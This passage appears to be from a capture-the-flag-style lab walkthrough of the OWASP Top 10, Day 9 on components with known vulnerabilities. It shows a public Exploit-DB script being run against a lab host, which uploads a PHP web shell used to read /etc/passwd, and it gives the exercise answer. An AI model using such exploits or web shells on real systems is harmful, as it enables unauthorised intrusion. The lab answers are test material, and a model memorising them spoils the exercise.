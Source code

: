 ![](https://i.imgur.com/Ht7uc6G.png)

Fortunately for us, the error was caused by an line that should have been commented, so it's an easy fix.

![](https://i.imgur.com/x1lHJod.png)

Fixing that, let's try and run the program again.

Boom! We have RCE. Now it's important to note here that most scripts will just tell you what arguments you need to provide, exploit developers will rarely make you read potentially hundreds of lines of codes just to figure out how to use the script.

It is also worth noting that it may not always be this easy, sometimes you will just be given a version number like in this case, but other times you may need to dig through the HTML source, or even take a lucky guess on an exploit script, but realistically if it is a known vulnerability, there's probably a way to discover what version the application is running.

That's really it, the great thing about this piece of the OWASP 10, is that the work is pretty much already done for us, we just need to do some basic research, and as a penetration tester, you're already doing that quite a bit :).

1. Read the above!

`No answer needed`

## [Day 9] Components With Known Vulnerabilities - Practi...

The following is a vulnerable application, all information you need to exploit it can be found online. 

Note: When you find the exploit script, put all of your input in quotes, for example "id"

1. How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

* [Online Book Store 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/47887)

```
python3 47887.py http://10.10.243.197/

> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.243.197/bootstrap/img/2s5yhbfXdq.php
> Example command usage: http://10.10.243.197/bootstrap/img/2s5yhbfXdq.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y

RCE $ wc -c /etc/passwd
1611 /etc/passwd
```

`1611`

## [Day 10] Insufficient Logging and Monitoring

